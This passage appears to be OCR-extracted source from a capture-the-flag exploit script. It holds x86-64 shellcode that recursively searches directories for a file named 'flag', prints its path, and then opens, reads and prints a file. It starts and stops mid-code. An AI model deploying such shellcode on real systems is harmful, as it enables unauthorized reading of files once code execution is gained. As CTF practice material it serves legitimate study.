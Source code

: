 ```
    cmp     eax, 0x67616c66
    jnz     cmp_parent
    mov     rsi, 0x60
    lea     rdi, [r15+0x500]
    mov     rax, 79
    syscall
print_cwd:
    mov     rdi, 1
    lea     rsi, [r15+0x500]
    mov     rdx, 0x60
    mov     rax, 1
    syscall
exit:
    mov     rax, 60
    syscall
cmp_parent:
    cmp     al, 0x2e
    jz      loop2
    mov     r8, [rbp-0x38]
    cmp     r8, 4
    jnz     loop2
digui:
    mov     eax, [rbp-0x40]
    lea     edx, [rax+1]
    mov     rax, [rbp-0x20]
    mov     esi, edx       
    mov     rdi, rax       
    call    find_dir
    jmp     loop2
out_loop1:
    lea     rdi, [r15+0x320]
    mov     rax, 80
    syscall
    mov     rdi, [rbp-0x28]
    mov     rax, 3
    syscall   
    add     rbp, 0x320
    ret
    ''')

read_sc = asm('''
init:    
    mov     r15, rsi 
    lea     rbp, [r15+0x3900]
    lea     rdi, [r15+0x300]
    mov     rsi, 0
open:
    mov     rax, 2
    syscall
    mov     [rbp-0x20], rax
read:
    mov     rdx, 0x20
    lea     rsi, [r15+0x500]
    mov     rdi, [rbp-0x20]
    mov     rax, 0
    syscall
write:
    mov     rdi, 1
    lea     rsi, [r15+0x500]
    mov     rdx, 0x20
    mov     rax, 1
    syscall
exit:
```